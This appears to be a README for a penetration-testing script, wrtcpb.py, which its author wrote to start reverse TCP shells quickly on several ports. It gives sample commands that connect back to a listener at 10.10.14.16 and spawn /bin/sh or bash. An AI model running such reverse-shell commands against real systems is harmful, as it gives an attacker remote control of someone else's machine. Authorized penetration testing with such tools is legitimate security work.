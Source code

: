 #### Use case ####
    Used for penetration testing.
    The main reason I created this module, was so that I could easily
    and quickly initiate multiple reverse TCP connections.

    More often than not, I connect via three different ports when hacking,
    and I would rather not keep performing "sed"/"ed", or opening vim/nano or
    using powershell commands in order to switch the ports, or inital shell.

#### Sample module wrtcpb - Iniitate reverseTCP ####
    Straight forward.
    python wrtcpb.py -lh 10.10.14.16 -lp 4443 -c /bin/sh
    python wrtcpb.py -lh 10.10.14.16 -lp 4442 -c bash
    ./wrtcpb.py -lh 10.10.14.16

##### _All modules have a -h and --help for more assistance._ #####
